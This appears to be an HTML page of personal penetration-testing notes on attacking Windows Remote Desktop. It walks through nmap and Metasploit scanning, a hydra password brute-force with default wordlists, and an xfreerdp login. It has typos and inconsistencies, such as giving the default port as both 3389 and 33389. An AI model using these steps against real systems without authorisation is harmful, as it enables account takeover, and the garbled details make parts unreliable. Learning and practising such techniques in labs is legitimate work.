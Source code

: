 <h1>Exploiting RDP</h1>
</hr>
<ul>
  <li>
    The Remote Desktop Protocol (RDP) is a proprietarty GUI remote access protocol developed by Microsoft and is used to remotely connect and interact with a Windows system.
  </li>
  <li>
    RDP uses T CP port 3389 by default and can also be  configured to run on any other TCP port.
  </li>
  <li>
    RDP authentication requires a legitimate user account on the target system as well the user's passwrod in clear-text.
  </li>
  <li>
    We can perform an RDP brute-force attack to identify legitimate user credentials that we can use to gain remote access to the target system.
  </li>
</ul>
</hr>
<h2>Pratically</h2>
<ol>
  <li>
    Target {ip}
  </li>
  <li>
    Nmap scan</br> <code>nmap -sV {ip}</code>
  </li>
  <li>
    RDP may or may not run on defult port which is 33389
  </li>
  <li>
    Metasploit:</br>
    <code>service postgresql start && msfconsole</code></br>
    <code>search rdp_scanner</code></br>
    <code>use auxiliary/rdp/rdp_scanner</code></br>
    change port if needed in my case <code>set RPORT 3333</code></br>
    <code>set RHOSTS {ip}</code></br>
    <code>run</code>
  </li>
  <li>
    brute Force:</br>
    <code>hydra -L /usr/share/metasploit-framework/data/wordlists/common_users.txt -P /usr/share/metasploit-framework/data/wordlists/unix_passwrod.txt rdp://{ip}: -s 3333 (change port if needed)</code>       
  </li>
  <li>
    After gettiing Username and password</br>
  <code>xfreerdp /u:administrator /p:password /v:{ip}:3333</code></ol></br><span>chage port if needed </span>
  </li>
</ol>
<br>Note: You use xfreerdp3 when xfreerdp not work 
